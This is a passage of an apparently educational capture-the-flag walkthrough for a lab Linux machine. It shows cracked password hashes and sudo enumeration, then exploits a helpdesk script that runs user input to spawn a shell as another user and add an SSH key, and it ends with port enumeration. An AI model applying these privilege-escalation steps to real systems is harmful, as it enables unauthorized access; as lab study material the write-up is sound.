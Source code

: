 <pre>7e53614ced3640d5de23f111806cc4fd	md5	masterpassword
686216240e5af30df0501e53c789a649	md5	dontaskdonttell</pre>

Tried these passwords but didn't get anything interesting so we continue with some more enumeration like checking our sudo privileges:

<pre>www-data@ubuntu:/home/apaar$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
</pre>

This shows us that we can run helpline.sh as apaar. Let's take a look at the script:

<pre>#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
</pre>

It looks like it can execute our $msg. Let's try running "id":

<pre>www-data@ubuntu:/home/apaar$ sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: ur mum
Hello user! I am ur mum,  Please enter your message: id
uid=1001(apaar) gid=1001(apaar) groups=1001(apaar)
Thank you for your precious time!</pre>

It's executing as apaar. We can get some sort of shell now as that user. 

Let's try executing /bin/bash:

<pre>Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: d
Hello user! I am d,  Please enter your message: /bin/bash</pre>

And we have upgraded to the user.

I add my ssh key in for ease. 

I go through some of my routine enumeration. I saw earlier a docker container as an interface so I wanted to check out more networking, to see what's going on.

<pre>apaar@ubuntu:~$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:9001          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 10.10.255.139:68        0.0.0.0:*                           -                   